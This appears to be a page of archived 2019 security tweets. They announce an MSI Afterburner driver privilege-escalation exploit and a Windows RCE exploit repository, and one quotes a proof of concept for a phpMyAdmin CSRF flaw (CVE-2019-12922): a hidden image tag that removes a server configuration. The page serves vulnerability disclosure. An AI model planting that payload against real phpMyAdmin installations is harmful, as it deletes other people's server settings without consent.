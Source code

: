 
# securisec
**https://twitter.com/securisec/status/1172681184062640128 _at 2019-09-14 01:19:16_**
<blockquote>
"RT RT Voulnet: LPE vulnerability (with working exploit) in MSI Afterburners Driver RTCore64, giving nt system authority access.

Discovery and exploit by the amazing barakatsoror.

Note: the offsets are hardcoded for Win10 1903, for other versions p… https://t.co/CQ9QquTFlx"
</blockquote>

* https://github.com/Barakat/CVE-2019-16098

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---

# Alra3ees
**https://twitter.com/Alra3ees/status/1172644207862996993 _at 2019-09-13 22:52:20_**
<blockquote>
Windows-RCE-exploits: The exploit samples database is a repository for **RCE** (remote code execution) exploits and Proof-of-Concepts for **WINDOWS**, the samples are uploaded for education purposes for red and blue teams. https://t.co/urJ6xHeE3c
</blockquote>

* https://github.com/smgorelik/Windows-RCE-exploits

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>158</code></td>
<td>Favorites: <code>340</code></td>
</tr></table>

---

# xxByte
**https://twitter.com/xxByte/status/1172418715717009409 _at 2019-09-13 07:56:18_**
<blockquote>
phpMyAdmin 4.9.0.1 CSRF vuln to delete any server(s) - CVE-2019-12922

Poc:
&lt;p&gt;Deleting Server 1&lt;/p&gt;
&lt;img src=“
http://server/phpmyadmin/setup/index.php?page=servers&amp;mode=remove&amp;id=1″
style=“display:none;” /&gt;
